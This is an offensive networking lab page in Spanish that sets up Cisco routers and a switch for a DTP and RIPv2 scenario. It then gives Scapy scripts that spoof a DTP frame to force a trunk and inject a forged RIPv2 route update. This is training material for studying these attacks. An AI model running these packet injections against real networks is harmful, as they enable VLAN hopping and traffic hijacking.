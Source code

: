 ```yaml
---
theme: "just-the-docs"
title: "Escenario 01: DTP, RIPv2"
layout: default
nav_order: 5
parent: "Labs Ofensivos" 
---
```

# Escenario 01: DTP, RIPv2
## Topologia a configurar
![Escenario 01](Escenario01.png)
## Configuracion equipos de comunicaciones
### RTA
```
hostname RTA
!
username dpacheco password lesand2024
enable secret 2024
line vty 0 15
 login local
!
int g0/1
 ip add 192.168.3.1 255.255.255.0
 no shut
!
router rip
 version 2
 network 192.168.3.0
 network 192.168.4.0
 !
 interface lo1
  ip add 192.168.4.10 255.255.255.0
!
ip dhcp excluded-address 192.168.1.1 192.168.1.5
ip dhcp excluded-address 192.168.0.1 192.168.0.5
!
ip dhcp pool V10
 network 192.168.0.0 255.255.255.0
 default-router 192.168.0.1
!
ip dhcp pool V20
 network 192.168.1.0 255.255.255.0
 default-router 192.168.1.1
```
### RTB
```
hostname RTB
!
username dpacheco password lesand2024
enable secret 2024
!
line vty 0 15
 login local
!
int g0/1
 ip add 192.168.3.2 255.255.255.0
 no shut
!
int g0/0
 no shut
int g0/0.10
 encapsulation dot1q 10
 ip add 192.168.0.1 255.255.255.0
int g0/0.20
 encapsulation dot1q 20
 ip add 192.168.1.1 255.255.255.0
!
router rip
 version 2
 network 192.168.3.0
 network 192.168.0.0
 network 192.168.1.0
 !
int g0/0.10
 ip helper-address 192.168.4.10
int g0/0.20
 ip helper-address 192.168.4.10
```
### SW1
```
hostname SW1
vlan 10
vlan 20
int Gi0/0
 switchport trunk encapsulation dot1q
 switchport mode trunk
int Gi1/1
 switchport mode access
 switchport access vlan 10
int Gi1/2
 switchport mode access
 switchport access vlan 20
```

## Reconocimiento usando Llaitun
Avtivamos el ambiente virtual y ejecutamos Llaitun como root
```
cd Desktop/tools                                                         ─╯
source ENV-LLAITUN/bin/activate   
sudo $(which python) Llaitun.py --live 
```
## Creacion de directorio para scripts de scapy
```
mkdir /home/lesand/Desktop/tools/scapy
```

## Instalacion y ejecucion de scapy
```
sudo apt-get install python3-scapy                                       ─╯
sudo scappy
```
### Ejemplo Script para DTP (scapy Modo Libreria)
```
from scapy.all import *
load_contrib("dtp")
ASD = sniff(filter="ether[20:2] == 0x2004",count=1)    

ASD[0].src="00:00:00:13:54:2d"
ASD[0][DTP][DTPStatus].status='\x03'
#ASD[0][DTP][DTPType].dtptype='E'
sendp(ASD[0])
```
### Ejemplo Script para RIPv2 (scapy Modo Interactivo)
```
sendp(Ether(dst="01:00:5e:00:00:09", src="aa:bb:cc:00:11:22", type=0x8100)/Dot1Q(prio=0, id=0, vlan=20, type=0x0800)/IP(tos=192,ttl=2,proto=17,src="192.168.1.10",dst="224.0.0.9")/UDP(sport=520, dport=520)/RIP(cmd=2,version=2)/RIPEntry(AF=2, RouteTag=1354, addr="8.8.8.8", mask="255.255.255.255", nextHop="0.0.0.0", metric=1))
```
